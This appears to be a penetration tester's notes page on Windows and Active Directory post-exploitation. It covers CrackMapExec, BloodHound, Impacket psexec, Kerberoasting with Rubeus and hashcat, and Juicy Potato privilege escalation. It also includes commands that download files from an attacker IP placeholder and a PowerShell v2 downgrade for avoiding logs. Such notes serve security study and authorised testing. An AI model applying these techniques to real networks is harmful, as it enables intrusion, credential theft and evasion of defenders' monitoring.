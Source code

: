 The final goal for a machine is to get to  `NT AUTHORITY\SYSTEM` 

## After initial access
Once we have gained access and got credentials, we can gather more information or connect to the host with the following methods:
 - CrackMapExec: with `-U <username> -p <password>` to query usernames, groups, logged on users, ...
- BloodHound: can be used to recover active sessions (logged on users)
- SMBmap
- Impacket: (psexec, wmiexec)
	- psexec: Create remote connection to host (via RPC) and give us an interactive remote shell as SYSTEM. Need a user with local admin privileges

#### Windows
- ActiveDirectory module for powershell
- powerview
- Snaffler (for credentials hunt in shares)
- BloodHound (for visualization) with SharpHound (for data collection)

## Methods for Privesc
- Try [[LLMNR & NBT-NS Poisoning]]
- Retry password spraying and hope to find an admin account
- Windows exploits, such as Eternal Blue
- Abusing running services (normal privesc)
- Kerberoasting
- Abusing `SeImpersonate` (check with `whoami /all`) with [Juicy Potato](https://github.com/ohpe/juicy-potato)
- Find other vulnerabilities with standard method or through `winpeas` (normal privesc)

### Kerberoasting
Abuses the Kerberos protocol to harvest password hashes for AD users with Service Principal Name (SPN) values (service accounts).

Steps:
- Find accounts with SPN
- Trigger kerberoast attack with tools such as Rubeus
- Take hashes offline and use hashcat -m 13100

## Bloodhound
Running SharpHound/BloodHound is always a good idea on the target. It helps use see the paths that can be taken from our user to domain admins / domain controllers.

The results can be taken back locally on our machine and analysed.

## Transfer Files
- `wget <ip> -o <target>`
- curl
- certutil
- `(New-Object System.Net.WebClient).DownloadFile(<ip>, <target>`
- scp
- ftp/tftp

## Living off the Land (LOTL)
- powershell can be downgraded with `powershell.exe -version 2`. Interesting as version 2 does not have log system enabled, meaning we will be stealthier
- Check defenses with `netsh` and `sc`
- Check network with: 
	- `arp -a`
	- `route print`
	- `ipconfig /all`
- Check WMI: Windows Management Instrumentation
- `Net` commands

## Once admin
- enumerate the domain (with tool such as Bloodhound for example or windapsearch)
- Kerberoasting
- SMB relay attacks
- gather Net-NTLMv2 hashes
- token impersonation
- ACL attacks